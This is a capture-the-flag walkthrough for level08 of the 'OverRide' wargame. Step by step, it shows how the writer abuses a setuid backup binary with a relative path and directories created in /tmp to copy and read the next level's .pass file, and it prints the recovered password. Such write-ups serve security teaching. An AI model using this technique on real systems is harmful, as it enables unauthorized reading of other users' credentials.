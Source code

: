 # Level08

## Walkthrough

We list the files in the current home directory.

```bash
level08@OverRide:~$ ls -lA
total 28
-r--------  1 level08 level08     0 Oct 19  2016 .bash_history
-rw-r--r--  1 level08 level08   220 Sep 10  2016 .bash_logout
lrwxrwxrwx  1 root    root        7 Sep 13  2016 .bash_profile -> .bashrc
-rw-r--r--  1 level08 level08  3533 Sep 10  2016 .bashrc
-rw-r-xr--+ 1 level08 level08    41 Oct 19  2016 .pass
-rw-r--r--  1 level08 level08   675 Sep 10  2016 .profile
-r--------  1 level08 level08  2235 Oct 19  2016 .viminfo
drwxrwx---+ 1 level09 users      60 Oct 19  2016 backups
-rwsr-s---+ 1 level09 users   12975 Oct 19  2016 level08
level08@OverRide:~$ file level08 
level08: setuid setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xf8990336d0891364d2754de14a6cc793677b9122, not stripped
```

The file `level08` is owned by **level09**, is 64-bit, and has the setuid bit.

```
(gdb) info function
All defined functions:

Non-debugging symbols:
0x00000000004006c0  _init
0x00000000004006f0  strcpy
0x00000000004006f0  strcpy@plt
0x0000000000400700  write
0x0000000000400700  write@plt
0x0000000000400710  fclose
0x0000000000400710  fclose@plt
0x0000000000400720  __stack_chk_fail
0x0000000000400720  __stack_chk_fail@plt
0x0000000000400730  printf
0x0000000000400730  printf@plt
0x0000000000400740  snprintf
0x0000000000400740  snprintf@plt
0x0000000000400750  strncat
0x0000000000400750  strncat@plt
0x0000000000400760  fgetc
0x0000000000400760  fgetc@plt
0x0000000000400770  close
0x0000000000400770  close@plt
0x0000000000400780  strcspn
0x0000000000400780  strcspn@plt
0x0000000000400790  __libc_start_main
0x0000000000400790  __libc_start_main@plt
0x00000000004007a0  fprintf
0x00000000004007a0  fprintf@plt
0x00000000004007b0  open
0x00000000004007b0  open@plt
0x00000000004007c0  fopen
0x00000000004007c0  fopen@plt
0x00000000004007d0  exit
0x00000000004007d0  exit@plt
0x00000000004007e0  _start
0x000000000040080c  call_gmon_start
0x0000000000400830  __do_global_dtors_aux
0x00000000004008a0  frame_dummy
0x00000000004008c4  log_wrapper
0x00000000004009f0  main
0x0000000000400c60  __libc_csu_init
0x0000000000400cf0  __libc_csu_fini
0x0000000000400d00  __do_global_ctors_aux
0x0000000000400d38  _fini
```

There are 2 user-defined functions: `main()` and `log_wrapper()`.

We download the executable and upload it on **Dogbolt** in order to understand the logic of the program.

[Link to the decompiled executable](https://dogbolt.org/?id=fb42ad07-6308-45df-b8f7-fe3953c56ac1)

The program seems to read a file passed as `argv[1]` and creates a backup of it in the `backups` directory.  
As **level09** is the owner of the executable, we may be able to open its `.pass` file.

We summarize the most important steps of the `main()` function:
- calls `fopen()` to open the `./backups/log` in write mode
- calls `fopen()` with `argv[1]` in read mode
- concatenates the `./backups/` and `argv[1]` strings together and tries to open it later with `open()`, creating the file if it doesn't exist
- copies byte by byte the content of the `argv[1]` file to the newly created file

We run the executable passing `/home/users/level09/.pass` as first argument.

```bash
level08@OverRide:~$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
level08@OverRide:~$ ls -lA backups/
total 4
-rwxrwx---+ 1 level09 users 49 May 13 23:38 .log
level08@OverRide:~$ cat backups/.log 
LOG: Starting back up: /home/users/level09/.pass
```

When we pass `/home/users/level09/.pass` to the executable, it is able to open the `.pass` file but the concatenated string is equal to `./backups//home/users/level09/.pass` which is not a valid filename because of the double slashes `//`.  
We might counter this problem using a relative path.

```bash
level08@OverRide:~$ ./level08 ../level09/.pass
ERROR: Failed to open ./backups/../level09/.pass
```

The program returns an error because we don't have the required permissions to create a new directory or file in `/home/users/level08`. The only directory we can modify is `/tmp`.

But there is no `./backups` directory in `/tmp`, so we have to create one.

```bash
level08@OverRide:~$ cd /tmp
level08@OverRide:/tmp$ mkdir backups
```

We try again, this time from the `/tmp` directory, and passing `../home/users/level09/.pass` as first argument.

```bash
level08@OverRide:/tmp$ ~/level08 ../home/users/level09/.pass
ERROR: Failed to open ./backups/../home/users/level09/.pass
```

So the `./backups` directory exists, the `../home/users/level09/.pass` exists, but `./backups/../home/users/level09/.pass` doesn't exist. The program fails because it tries to create a file to an invalid directory.  
But a simple solution exists: creating the `./home/users/level09` directories in `/tmp` in order to allow the program to create the `.pass` file inside it.

```bash
level08@OverRide:/tmp$ mkdir -p home/users/level09
level08@OverRide:/tmp$ ~/level08 ../home/users/level09/.pass
level08@OverRide:/tmp$ cat home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
